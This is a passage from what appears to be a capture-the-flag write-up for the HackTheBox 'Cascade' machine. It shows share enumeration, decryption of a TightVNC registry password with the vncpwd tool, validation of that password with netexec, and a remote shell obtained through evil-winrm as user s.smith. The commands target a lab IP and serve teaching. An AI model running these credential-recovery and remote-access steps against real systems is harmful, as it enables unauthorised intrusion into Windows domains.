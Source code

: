 And now we see a share titled `Data`. After connecting, we have access to the following files:
* `\IT\Email Archives\Meeting_Notes_June_2018.html`
	* Temporary account, username is `TempAdmin` (same pass as normal admin).
* `\IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log`
* `\IT\Logs\DCs\dcdiag.log`
* `\IT\Temp\s.smith\VNC Install.reg`
	* `TightVNC`
	* `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
	* `"RfbPort"=dword:0000170c`
	* `"HttpPort"=dword:000016a8`

### VNC Password

Converting the VNC password hex into ASCII gives us a bunch of jibberish, maybe ciphertext. After a few Google searches, turns out that's what it is. A few more Google searches led me to this [tool](https://github.com/jeroennijhof/vncpwd) to help decrypt it.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo "6bcf2a4b6e5aca0f" | xxd -r -p > vnc_pass.enc

┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ /opt/vncpwd/vncpwd vnc_pass.enc 
Password: sT333ve2
```

Guessing since we found this in `s.smith`'s folder, the password might belong to him.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ netexec smb 10.129.145.225 -u s.smith -p 'sT333ve2'  
SMB    10.129.145.225  445    CASC-DC1       [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB    10.129.145.225  445    CASC-DC1       [+] cascade.local\s.smith:sT333ve2
```

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ evil-winrm -i 10.129.145.225 -u s.smith -p 'sT333ve2'            

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

## Shell as s.smith

### Enumeration

```PowerShell
*Evil-WinRM* PS C:\Users\s.smith\Desktop> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

```